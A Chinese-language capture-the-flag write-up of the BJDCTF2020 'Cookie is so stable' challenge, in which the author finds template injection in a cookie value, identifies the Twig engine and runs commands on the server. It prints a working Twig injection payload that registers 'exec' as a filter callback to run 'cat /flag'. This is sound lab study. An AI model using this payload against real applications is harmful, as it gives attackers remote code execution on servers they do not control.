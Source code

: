 # [BJDCTF2020]Cookie is so stable（学习）
![](<./img/Pasted image 20221120211116.png>)

---
首页长这样

![](<./img/Pasted image 20221120211132.png>)

等等，题目不是stable吗，这里咋变成subtle了QwQ

![](<./img/Pasted image 20221120211200.png>)

```php
/flag.php
```
![](<./img/Pasted image 20221120211327.png>)

输入`username`上传之后是这样

![](<./img/Pasted image 20221120211704.png>)

POST的内容是`username=CrackTC&submit=submit`

同时设置`cookie`

![](<./img/Pasted image 20221120211901.png>)

点击`Logout`后实际上是`GET /logout.php`

---
尝试从`cookie`值入手，看看是不是`SSTI`之类的
```php
user={{1-2}}
```
![](<./img/Pasted image 20221120212926.png>)

芜湖
```twig
user={{phpinfo()}}
```
![](<./img/Pasted image 20221120213341.png>)

括号被过滤掉了好像

可恶，之后居然就没思路了呜呜呜

搜了下网上有个decision tree长这样

![](<./img/Pasted image 20221120214710.png>)

先不管咋注入，确定模板引擎先
```twig
user={{7*'7'}}
```
![](<./img/Pasted image 20221120214943.png>)

这里回显49，说明是`Twig`
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
![](<./img/Pasted image 20221120220302.png>)

这个看字面意思好像是先注册一个回调，当获取一个未定义的过滤器时候调用这个回调，并向它传递试图获取的过滤器名字，所以最终就变成了向`exec`传递`cat /flag`，也就获取到了`flag`（推测之前回显`What do you want to do?!`是我没搞懂语法整出报错了，并不是括号被过滤了QAQ）

#Web #HTTP #twig #SSTI #RCE #PHP #Header 
